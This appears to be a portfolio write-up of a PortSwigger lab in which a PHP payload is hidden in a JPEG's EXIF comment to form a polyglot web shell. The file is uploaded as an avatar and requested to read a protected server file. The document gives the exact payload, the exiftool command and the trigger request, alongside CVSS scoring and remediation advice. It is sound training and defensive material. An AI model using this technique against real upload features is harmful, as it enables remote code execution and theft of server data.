


# Remote Code Execution via Polyglot Web Shell Upload

> Bypassed content-based image validation on a file upload function by embedding a PHP payload inside a valid JPEG's EXIF metadata, achieving remote code execution and exfiltrating a protected file.


## Table of Contents

- [Overview](#overview)
- [Scope & Objectives](#scope--objectives)
- [Methodology](#methodology)
- [Findings / Results](#findings--results)
- [Attack Chain](#attack-chain)
- [Tools & Environment](#tools--environment)
- [Evidence](#evidence)
- [Lessons Learned](#lessons-learned)
- [References](#references)
- [Author](#author)

---

## Overview

File upload functions that validate content type using signature checks (magic bytes) rather than full content parsing remain vulnerable to polyglot attacks, in which a file is simultaneously valid as two formats. This exposes applications to remote code execution when uploaded files are served from a PHP-enabled directory.

This project targeted a PortSwigger Web Security Academy lab simulating an avatar upload function that validated uploaded files as genuine images but did not prevent server-side script execution on files with a `.php` extension. A PHP/JPEG polyglot file was constructed and uploaded to achieve arbitrary file read on the server.

> **Key Outcome:** Achieved remote code execution by embedding a PHP payload inside a JPEG's EXIF `Comment` field, bypassing image-content validation and exfiltrating a protected server-side file via the uploaded avatar's rendered path.

---

## Scope & Objectives

### Objectives

- Identify the file upload validation logic and its bypass conditions
- Construct a polyglot file valid as both a JPEG image and a PHP script
- Achieve server-side code execution via the uploaded file
- Exfiltrate the contents of a restricted file (`/home/carlos/secret`) as proof of impact

### In Scope

| Target                                        | Description                                   | Type              |
| --------------------------------------------- | --------------------------------------------- | ----------------- |
| PortSwigger Web Security Academy lab instance | Avatar upload feature on user account page    | Web Application   |
| `/my-account/avatar`                          | File upload endpoint                          | Upload Function   |
| `/files/avatars/`                             | Static file serving path for uploaded avatars | File Serving Path |

### Out of Scope

- Any system outside the provisioned PortSwigger lab instance
- Authentication bypass or privilege escalation — valid low-privilege credentials (`wiener:peter`) were provided
- Denial-of-service or destructive testing

### Engagement Type

> **Type:** White-box (lab objective and vulnerability class disclosed in advance)
> **Authorization:** PortSwigger Web Security Academy — sanctioned training lab
> **Duration:** Single session

---

## Methodology

Testing followed a structured bypass-validation approach aligned with **OWASP Top 10 A03:2021 (Injection)** and **A08:2021 (Software and Data Integrity Failures)**, referencing **CWE-434: Unrestricted Upload of File with Dangerous Type**.

1. **Baseline test** — Attempted direct upload of a `.php` file containing a file-read payload to confirm the presence of server-side validation.
2. **Content validation identification** — Confirmed the server inspected file content (not just extension or MIME header) to verify the upload was a genuine image, blocking naive extension-renaming bypasses.
3. **Polyglot construction** — Embedded a PHP payload into the `Comment` EXIF field of a legitimate JPEG using ExifTool, preserving valid JPEG file signatures while introducing executable PHP code within the binary stream. Output was saved with a `.php` extension.
4. **Upload and verification** — Uploaded the polyglot file as the avatar via the authenticated low-privilege account, then confirmed successful storage and retrieval.
5. **Execution and exfiltration** — Requested the served avatar path directly, triggering server-side PHP interpretation of the embedded comment field, and captured the output containing the target file's contents.

---

## Findings / Results

### Finding 06-01 — Unrestricted File Upload Leading to Remote Code Execution

| Field                  | Detail                                                                 |
| ---------------------- | ---------------------------------------------------------------------- |
| **Severity**           | [CRITICAL]                                                             |
| **CVSS v3.1 Score**    | 9.8                                                                    |
| **CVSS Vector**        | `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`                                  |
| **CWE**                | CWE-434: Unrestricted Upload of File with Dangerous Type               |
| **OWASP Category**     | A03:2021 – Injection / A08:2021 – Software and Data Integrity Failures |
| **MITRE ATT&CK**       | T1505.003 – Server Software Component: Web Shell                       |
| **Affected Component** | Avatar upload feature (`/my-account/avatar`)                           |

**Description**
The upload endpoint validated that submitted files were genuine images by inspecting file content, but this validation did not account for polyglot files — files that are structurally valid images while also containing executable PHP code in a metadata field. Because uploaded files retaining a `.php` extension were served from a PHP-interpreting directory, the embedded payload executed when the file was requested directly.

**Technical Impact**
Arbitrary PHP code execution in the context of the web server process, enabling arbitrary file read, and depending on server configuration, potential arbitrary file write, command execution, or full host compromise.

**Business Impact**
An authenticated low-privilege user could escalate to remote code execution, compromising confidentiality and integrity of all data accessible to the web server process, including other users' data and server configuration.

**Proof of Concept**

Payload embedded into JPEG EXIF `Comment` field:

```php
<?php echo "START " . file_get_contents("/home/carlos/secret") . " END"; ?>
```

Polyglot generation:

```bash
exiftool -Comment='<?php echo "START " . file_get_contents("/home/carlos/secret") . " END"; ?>' input.jpg -o polyglot.php
```

Execution trigger (direct request to the served upload path):

```http
GET /files/avatars/polyglot.php HTTP/2
Host: <lab-id>.web-security-academy.net
```

Server response contained the PHP output embedded within the raw JPEG binary stream, bounded by the `START` / `END` markers, confirming code execution and successful file exfiltration.

**Remediation**

- `[IMMEDIATE]` Do not serve user-uploaded files from a directory in which the web server will interpret executable script extensions (`.php`, `.phtml`, etc.). Serve uploads from a separate, non-executable origin or object storage.
- `[SHORT-TERM]` Enforce a strict allow-list of file extensions independent of content-based validation, and strip or reject any extension not on the allow-list regardless of detected MIME type.
- `[PLANNED]` Re-encode all uploaded images server-side (e.g., via a dedicated image processing library) to strip metadata fields such as EXIF comments before storage.

**Retest Criteria**
Re-upload the polyglot file and confirm the server either rejects it, strips embedded metadata, or serves it with a `Content-Type` and disposition that prevents script interpretation.

---

## Attack Chain

```
[1] Attempt direct .php upload
        |
        v
[2] Blocked by content-based image validation
        |
        v
[3] Construct PHP/JPEG polyglot (payload in EXIF Comment field)
        |
        v
[4] Upload polyglot.php as avatar -> passes content validation
        |
        v
[5] Request /files/avatars/polyglot.php directly
        |
        v
[6] Server interprets .php extension -> executes embedded payload
        |
        v
[7] File contents exfiltrated between START / END markers in response
```

---

## Tools & Environment

| Tool                             | Purpose                                                 |
| -------------------------------- | ------------------------------------------------------- |
| Kali Linux                       | Attack platform                                         |
| Burp Suite Community Edition     | Proxy interception, request replay, response inspection |
| ExifTool 13.55                   | Embedding PHP payload into JPEG EXIF metadata           |
| PortSwigger Web Security Academy | Lab environment                                         |

---

## Evidence


_Caption: `GET /files/avatars/polyglot.php` response in Burp Repeater, showing server-side execution of the embedded PHP payload and exfiltration of the target file's contents._


_Caption: Lab marked as solved after submitting the exfiltrated secret value._

---

## Lessons Learned

- Content-based file validation (magic byte / signature checks) confirms a file _conforms_ to a format — it does not confirm the _absence_ of additional embedded data, since formats like JPEG tolerate extraneous metadata fields.
- Serving uploaded files from any path where the web server will interpret executable extensions is a critical architectural risk, independent of how strong upload validation appears.
- Polyglot file construction is a practical, low-effort technique (a single `exiftool` command) capable of defeating validation that only inspects file structure rather than stripping or rejecting non-essential metadata.
- **Skills demonstrated:** file upload vulnerability exploitation, polyglot file crafting, HTTP proxy-based request/response analysis, PHP web shell payload construction, vulnerability impact translation to CVSS.

---

## References

- [OWASP Top 10:2021 – A03 Injection](https://owasp.org/Top10/A03_2021-Injection/)
- [OWASP Top 10:2021 – A08 Software and Data Integrity Failures](https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
- [MITRE ATT&CK T1505.003 – Server Software Component: Web Shell](https://attack.mitre.org/techniques/T1505/003/)
- [PortSwigger Web Security Academy – File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)

---

## Author

**Michael Asante Anim** | `0x1aerixis`
BSc Cyber Security — University of Mines and Technology (UMaT), Tarkwa, Ghana

[](https://github.com/anim-michael-asante)
[](https://linkedin.com/in/michael-asante-anim)
[](https://tryhackme.com/p/0x1aerixis)
[](https://x.com/0x1aerixis)
[](https://discord.com/users/0x1aerixis)

> _"Built by Grace."_

---

> **Disclaimer:** All work documented in this repository was conducted in authorized, isolated lab environments or sanctioned CTF platforms. No unauthorized systems were accessed. This project is intended for educational and portfolio purposes only.
